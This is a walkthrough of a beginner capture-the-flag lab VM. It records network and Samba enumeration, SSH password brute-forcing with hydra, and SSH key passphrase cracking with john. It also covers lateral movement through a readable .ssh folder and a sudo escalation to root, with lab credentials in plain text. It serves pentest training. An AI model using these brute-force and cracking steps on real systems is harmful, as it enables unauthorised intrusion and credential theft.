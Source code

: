 ===Basic Pentest	Flutter Jul 19 2021===

IP 10.10.75.25</br>
	> export IP=10.10.75.25</br>
'MYIP 10.10.31.144</br>
	> export IP=10.10.31.144'


# Recon #

----------------
	Scanning
----------------	

 $ nmap -sV -sC -T5 -vv -oN nmap_initial $IP

		'''
		22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)

		80/tcp   open  http        syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
			http-methods: 
				Supported Methods: GET HEAD POST OPTIONS
			http-server-header: Apache/2.4.18 (Ubuntu)
			http-title: Site doesn't have a title (text/html).

		139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

		445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)

		8009/tcp open  ajp13       syn-ack ttl 64 Apache Jserv (Protocol v1.3)
			ajp-methods: 
				Supported methods: GET HEAD POST OPTIONS

		8080/tcp open  http-proxy  syn-ack ttl 64
		'''
> running Apache http</br>
> running Samba


### Samba Enumeration ###

 $ enum4linux -a $IP | tee enum4$IP.log

> Shares Discovered

		'''
		Anonymous       Disk      
		IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
		'''

> Users Discovered

		'''
		Unix User\kay (Local User)
		Unix User\jan (Local User)
		BASIC2\nobody (Local User)
		'''


### Site ###

 $ gobuster dir -u http://$IP -w directory-list-2.3-medium.txt -o gobuster_80

	'''
	/development (Status: 301)
	/server-status (Status: 403)
	'''

---------------------
	Visiting Site
---------------------

- http://$IP/ source

		'''
		Undergoing maintenance

		Please check back later

		//Check our dev note section if you need to know what to work on.
		'''

- http://$IP/development
	> dev.txt

		'''
		2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
		to host that on this server too. Haven't made any real web apps yet, but I have tried that example
		you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
		using version 2.5.12, because other versions were giving me trouble. -K

		2018-04-22: SMB has been configured. -K

		2018-04-21: I got Apache set up. Will put in our content later. -J
		'''

	> j.txt

		'''
		For J:

		I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
		and I was able to crack your hash really easily. You know our password policy, so please follow
		it? Change that password ASAP.

		-K
		'''

### Users ###

- jan
- kay 


# Intrusion #

$ ssh jan@10.10.75.25
> pass: armando (See Passwords)

jan@basic2:~$ id
> uid=1001(jan) gid=1001(jan) groups=1001(jan)
 


# PrivEsc # 

jan@basic2:~$ sudo -l
 
> Password protected, tried "armando"

		'''
		Sorry, user jan may not run sudo on basic2.
		'''

jan@basic2:~$ find / -type f -user root -perm -u=s 2>/dev/null

> Nothing useful found :c

### Lateral Movement ###

jan@basic2:~$ ls -la /home

	'''
	drwxr-xr-x  2 root root 4096 Apr 23  2018 jan
	drwxr-xr-x  5 kay  kay  4096 Apr 23  2018 kay
	'''

jan@basic2:~$ ls -la /home/kay

	'''
	-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
	drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
	'''

$ scp -r jan@$IP:/home/kay/.ssh kay_ssh/

$ chmod 600 id_rsa

$ ssh -i id_rsa kay@$IP

	Enter passphrase for key 'id_rsa':
	//grr, see Passwords

$ ssh kay@$IP
	
> pass: beeswax

kay@basic2:~$ id
	
	uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

$ scp -i id_rsa kay@10.10.75.25:/home/kay/pass.bak Passwords/

> pass.bak
	  
	  heresareallystrongpasswordthatfollowsthepasswordpolicy$$

kay@basic2:~$ sudo -l

> Password protected, tried "heresareallystrongpasswordthatfollowsthepasswordpolicy$$"
		
		User kay may run the following commands on basic2:
    		(ALL : ALL) ALL

 kay@basic2:~$ sudo su root
 
> root gained

*Flag Found*<details>
	<summary>Spoiler</summary>
	
> /root/flag.txt:

		'''
		Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
		a shell, and two ways to privesc. I encourage you to find them all!

		If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
		takeaways from this challenge should be that every little bit of information you can find can be
		valuable, but sometimes you'll need to find several different pieces of information and combine
		them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
		an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
		in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
		therefore might've been overlooked by administrators.

		Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
		out to me.

		Happy hacking!
		'''
</details>


# Passwords #

----------------
	Cracking
----------------

- jan ssh

	> hydra -L users.txt -P rockyou.txt -o initial_pass

	<details><summary>users.txt</summary>
	
			jan
			kay
	
	</details>

	<details><summary>initial_pass</summary>
	
			login: jan | pass: armando
			Stopped. (kay was taking too long)

	</details>
			
- kay ssh private key passphrase
	> ssh2john id_rsa > kay_john</br>
	> john kay_john --wordlist=rockyou.txt

		pass: beeswax

---------------
	Exposed
---------------

- kay ssh
	> pass.bak
	
		pass: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
